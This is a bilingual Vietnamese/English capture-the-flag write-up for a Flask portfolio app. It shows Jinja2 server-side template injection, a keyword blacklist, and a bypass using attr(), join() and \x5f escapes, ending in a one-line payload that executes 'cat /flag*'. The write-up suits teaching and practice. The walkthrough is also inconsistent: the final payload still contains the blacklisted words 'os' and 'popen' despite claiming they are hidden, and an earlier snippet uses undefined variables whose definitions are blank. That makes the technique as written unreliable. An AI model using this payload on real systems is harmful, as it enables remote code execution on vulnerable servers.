




<div class="lang-switch" role="tablist" aria-label="Language switch">
  <button class="lang-btn active" role="tab" type="button" data-lang="en" aria-selected="true">EN</button>
  <button class="lang-btn" role="tab" type="button" data-lang="vn" aria-selected="false">VN</button>
</div>

<div class="lang-vn" markdown="1">

> **Flag:** `PTITCTF{sst1_j1nj42_bl4ckl1st_byp4ss_rce_succ3ss}`


Bài này thuộc category **Web**. Hệ thống là một ứng dụng web viết bằng Python Flask cho phép sinh viên tạo và kết xuất (render) trang portfolio cá nhân theo mẫu template động.

Mục tiêu là khai thác lỗ hổng tiêm mã mẫu giao diện (SSTI) để vượt qua bộ lọc danh sách đen (blacklist) và đạt được quyền thực thi mã từ xa (RCE).

---

## Sơ đồ luồng phân tích (Solve Flow)



---

## Bước 1: Khảo sát lỗ hổng SSTI và cơ chế lọc

Khi kiểm tra tham số mẫu template đầu vào, hệ thống phản hồi kết quả tính toán biểu thức `{{ 7 * 7 }}` trả về `49`. Điều này xác nhận ứng dụng sử dụng `render_template_string(user_input)` của template engine Jinja2.

Tuy nhiên, server cài đặt một lớp lọc danh sách đen nghiêm ngặt:
* Chặn các ký tự hoặc từ khóa: `__class__`, `__mro__`, `__subclasses__`, `__init__`, `__globals__`, `os`, `popen`, `system`, `import`.
* Nếu request chứa bất kỳ từ khóa nào trong danh sách trên, server sẽ trả về lỗi `403 Forbidden` hoặc `Malicious input detected`.

---

## Bước 2: Kỹ thuật vượt qua Blacklist bằng `attr()` và `join()`

Trong Jinja2:
1. Toán tử truy cập thuộc tính dấu chấm (`obj.prop`) có thể được thay thế bằng bộ lọc `attr()`:
   `obj|attr("prop")` tương đương với `getattr(obj, "prop")`.
2. Tên thuộc tính có thể được tạo thành từ một danh sách các chuỗi con thông qua filter `join()`:
   `['a', 'b']|join` $\rightarrow$ `"ab"`.
3. Ký tự gạch dưới kép `__` có thể được biểu diễn bằng mã escape thập lục phân `\x5f`:
   `['\x5f', '\x5f', 'globals', '\x5f', '\x5f']|join` $\rightarrow$ `'__globals__'`.

Nhờ cơ chế này, toàn bộ các từ khóa nhạy cảm đều không xuất hiện dưới dạng chuỗi rõ ràng trong payload.

---

## Bước 3: Khai thác RCE và Thu thập Flag

Trong Jinja2, đối tượng mặc định `lipsum` hoặc `cycler` luôn có sẵn trong ngữ cảnh toàn cục. Từ hàm tạo của đối tượng, ta có thể truy cập ngược lại từ điển `__globals__` chứa module `os`:

```jinja2





{{ (lipsum|attr(globs))[os_mod].popen(cmd).read() }}
```

Tối giản payload thành một dòng duy nhất để gửi qua HTTP POST:

```jinja2
{{ (lipsum|attr(['\x5f','\x5f','globals','\x5f','\x5f']|join))['os'].popen('cat /flag*').read() }}
```

Khi gửi payload lên server, backend xử lý biểu thức, thực thi lệnh hệ thống `cat /flag*` và in trực tiếp nội dung cờ ra trang web phản hồi.

⇒ **Flag:** `PTITCTF{sst1_j1nj42_bl4ckl1st_byp4ss_rce_succ3ss}`

</div>

<div class="lang-en" markdown="1">

> **Flag:** `PTITCTF{sst1_j1nj42_bl4ckl1st_byp4ss_rce_succ3ss}`


This article belongs to category **Web**. The system is a web application written in Python Flask that allows students to create and render personal portfolio pages according to dynamic templates.

The goal is to exploit a sample interface injection (SSTI) vulnerability to bypass the blacklist filter and gain remote code execution (RCE).

---

## Analysis Flow Diagram (Solve Flow)



---

## Step 1: Survey SSTI vulnerabilities and filtering mechanisms

When checking the input template parameters, the system responds with the result of calculating the expression `{{ 7 * 7 }}` returning `49`. This confirms the app uses the Jinja2 template engine's `render_template_string(user_input)`.

However, the server implements a strict blacklist filtering layer:
* Block characters or keywords: `__class__`, `__mro__`, `__subclasses__`, `__init__`, `__globals__`, `os`, `popen`, `system`, `import`.
* If the request contains any keywords in the list above, the server will return a `403 Forbidden` or `Malicious input detected` error.

---

## Step 2: Technique to overcome Blacklist using `attr()` and `join()`

Trong Jinja2:
1. The dot attribute access operator (`obj.prop`) can be replaced by the `attr()` filter:
`obj|attr("prop")` is equivalent to `getattr(obj, "prop")`.
2. Attribute names can be formed from a list of substrings via the `join()` filter:
`['a', 'b']|join` $\rightarrow$ `"ab"`.
3. The double underscore character `__` can be represented by the hexadecimal escape code `\x5f`:
`['\x5f', '\x5f', 'globals', '\x5f', '\x5f']|join` $\rightarrow$ `'__globals__'`.

Thanks to this mechanism, all sensitive keywords do not appear as explicit strings in the payload.

---

## Step 3: Achieve RCE and collect the flag

In Jinja2, the default `lipsum` or `cycler` object is always available in the global context. From the object's constructor, we can access the `__globals__` dictionary containing the `os` module:

```jinja2





{{ (lipsum|attr(globs))[os_mod].popen(cmd).read() }}
```

Minimize the payload into a single line to send via HTTP POST:

```jinja2
{{ (lipsum|attr(['\x5f','\x5f','globals','\x5f','\x5f']|join))['os'].popen('cat /flag*').read() }}
```

When sending the payload to the server, the backend processes the expression, executes the system command `cat /flag*` and prints the flag content directly to the response web page.

⇒ **Flag:** `PTITCTF{sst1_j1nj42_bl4ckl1st_byp4ss_rce_succ3ss}`
</div>


